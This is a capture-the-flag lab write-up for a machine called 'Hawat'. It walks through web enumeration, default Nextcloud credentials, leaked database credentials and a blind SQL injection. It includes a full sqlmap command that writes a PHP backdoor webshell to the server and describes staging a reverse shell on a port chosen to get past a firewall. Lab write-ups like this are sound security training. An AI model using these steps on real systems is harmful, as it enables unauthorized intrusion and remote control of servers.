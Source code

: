 # Hawat
### Enumeration
There are 3 webservers on ports 17445, 30445 and 50080.

##### 17445
An issue tracker with a login and register form. I registered a user and then was able to list other users and found `clinton` and `dummy`.

##### 30445
We see in the source code that there's a `title` GET parameter which is vulnerable to XSS. We find a file `phpinfo.php` after fuzzing the path. This tells us that PHP is running on this webserver and that the root directory is at `/srv/http`.

##### 50080
An uninteresting webpage. Do some directory fuzzing and find `/cloud` which goes to a Nextcloud login page. The credentials `admin:admin` get us in. We're able to download the code for the issue tracking application. We find MySQL credentials: `issue_user:ManagementInsideOld797`. We also find an endpoint (`/issue/checkByPriority`) that appears to have a blind SQL injection vulnerability. The code shows that it responds to GET requests, but I was getting a 405 (method not allowed) when trying GET, and POST returned results. I ran `sqlmap` to enumerate the database but nothing useful was found.

Instead, we upload a webshell to `/srv/http/shell.php` using `sqlmap` as below:

```shell-session
$ sqlmap --cookie 'JSESSIONID=DB237E6E030E9E373F349ABDE2912086' -u 192.168.54.147:17445/issue/checkByPriority --data 'priority=Normal' --batch --file-write=/usr/share/webshells/php/simple-backdoor.php --file-dest=/srv/http/shell.php
```

We can read the flag using this webshell, but we can also get a reverse shell using `/usr/share/webshells/php/php-reverse-shell.php`. I added some characters to the beginning, since the `sqlmap` file write operation seemed to be prepending some stuff to the uploaded files. I also set the local port to 50080, i.e. specifically one of the ports that was open on the target, in case of any firewall rules.